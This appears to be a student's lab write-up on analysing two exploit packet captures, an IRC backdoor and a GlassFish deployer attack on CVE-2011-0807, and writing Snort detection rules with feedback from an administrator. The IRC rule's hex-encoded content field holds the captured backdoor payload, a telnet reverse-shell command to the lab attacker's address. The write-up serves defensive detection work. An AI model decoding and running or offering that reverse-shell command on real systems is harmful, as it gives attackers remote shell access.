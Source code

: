 # Network Exploit Analysis and Snort Rule Development

This project involves analyzing network traffic from two recorded exploits using Wireshark and developing Snort IDS rules to detect these attacks while minimizing false positives. 
The packet captures contain traffic from a network administrator who isolated known exploit attempts. 
The project includes two main analyses: an IRC Backdoor Exploit and a GlassFish Deployer Exploit.

IRC Backdoor Exploit Analysis:
File: irc_backdoor_exploit.pcapng

Attacker IP: 10.1.1.3<p>
Victim IP: 10.2.2.4<p>
Victim Port: 6697<p>
Number of Attack Attempts: 2<p>
Attack Payload Packets: [4, 11]<p>
Proposed Snort Rule:<p>
alert tcp 10.1.1.3 any -> 10.2.2.4 6697 (msg:"IRC Backdoor Exploit Attempt"; content:"41423b7368202d63202728736c65657020343631307c74656c6e65742031302e312e312e3320343434347c7768696c65203a203b20646f20736820262620627265616b3b20646f6e6520323e26317c74656c6e65742031302e312e312e332034343434203e2f6465762f6e756c6c20323e2631202629270a"; sid:1000001; rev:1;)
<p></p>
Feedback from Network Administrator: The command should look for a specific string pattern ("AB;") in the payload.
<p></p>
False Positives: The rule is specific to the payload content; however, it may still trigger false positives if the same payload pattern appears in legitimate traffic. 
Careful tuning and adding more context checks, such as specific sequences or additional packet attributes, may be required to reduce false positives.


GlassFish Deployer Exploit Analysis:
File: glassfish_deployer_exploit.pcapng

Attacker IP: 10.1.1.3
Victim IP: 10.2.2.3
Victim Port: 4848
Number of Attack Attempts: 3
Attack Payload Packets: [38, 85, 132]
Proposed Snort Rule:
alert tcp 10.1.1.3 any -> 10.2.2.3 4848 (msg:"GlassFish Deployer Exploit Attempt"; content:"3c7469746c653e4465706c6f7920456e7465727072697365204170706c69636174696f6e732f4d6f64756c65733c2f7469746c653e0a6f732e6e616d65203d204c696e75780a6f732e61726368203d20783836"; sid:1000002; rev:1;)

Feedback from Network Admin: The rule should specifically look for "post" or "upload" and ".war".

Attack Identification: The payload content indicates the deployment of a malicious application/module to the GlassFish server, likely exploiting a vulnerability in the deployment functionality. 
This attack pattern aligns with exploits targeting the GlassFish server's deployment service, specifically CVE-2011-0807.

False Positives: Similar to the IRC Backdoor rule, this Snort rule is based on specific payload content. 
Legitimate deployments or configurations with similar payload patterns may trigger false positives. Adding more context to the rule, such as checking for additional malicious indicators or behaviors, can help minimize false positives.

Learning and Improvement:

During this project, valuable feedback from a network administrator significantly enhanced my understanding and skills in creating Snort IDS rules. Here are some key takeaways:

Specific Pattern Matching: Initially, my Snort rules were too general, which could lead to a high rate of false positives. The feedback emphasized the importance of looking for specific string patterns within the payload, such as "AB;" in the IRC Backdoor Exploit. This helped me refine the rule to be more precise.
Understanding Context: The suggestion to include checks for specific actions like "post," "upload," and ".war" in the GlassFish Deployer Exploit was crucial. This feedback taught me that understanding the context of the attack and incorporating it into the rule can greatly improve detection accuracy while reducing false positives.
Continuous Learning: The feedback loop highlighted the importance of continuous learning and adaptation. It reminded me that in the field of cybersecurity, especially when working with tools like Snort, it's essential to keep refining rules based on observed behavior and expert insights.
This feedback has not only improved the quality of the Snort rules I developed but also deepened my understanding of network security practices.


Resources used: 

https://lwn.net/Articles/392201/

https://nvd.nist.gov/vuln/detail/CVE-2011-0807
